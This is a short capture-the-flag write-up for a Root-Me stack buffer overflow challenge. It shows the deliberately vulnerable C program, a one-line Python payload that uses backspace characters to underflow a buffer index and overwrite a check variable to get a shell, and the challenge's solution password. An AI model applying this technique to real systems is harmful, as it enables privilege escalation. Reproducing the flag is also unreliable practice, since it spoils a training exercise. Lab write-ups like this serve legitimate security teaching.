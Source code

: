 # ELF x86 - Stack buffer overflow basic 6
- Point: 25pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  10 April 2015
- Level: Medium <br><br>
![image](https://user-images.githubusercontent.com/48288606/143521039-c69b3f39-c52e-4551-b2fa-9facc7ca23cf.png)

## Write-up:


```
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>
 
void shell(void);
 
int main()
{
 
  char buffer[64];
  int check;
  int i = 0;
  int count = 0;
 
  printf("Enter your name: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 64)
        printf("Oh no...Sorry !\n");
      if(check == 0xbffffabc)
        shell();
      else
        {
            read(fileno(stdin),&i,1);
            switch(i)
            {
                case '\n':
                  printf("\a");
                  break;
                case 0x08:
                  count--;
                  printf("\b");
                  break;
                case 0x04:
                  printf("\t");
                  count++;
                  break;
                case 0x90:
                  printf("\a");
                  count++;
                  break;
                default:
                  buffer[count] = i;
                  count++;
                  break;
            }
        }
    }
}
 
void shell(void)
{
  setreuid(geteuid(), geteuid());
  system("/bin/bash");
}
```


Payload: `(python -c "print('\x08'*4+'\xbc\xfa\xff\xbf')";cat) | ./ch16`

Password: Sm4shM3ify0uC4n


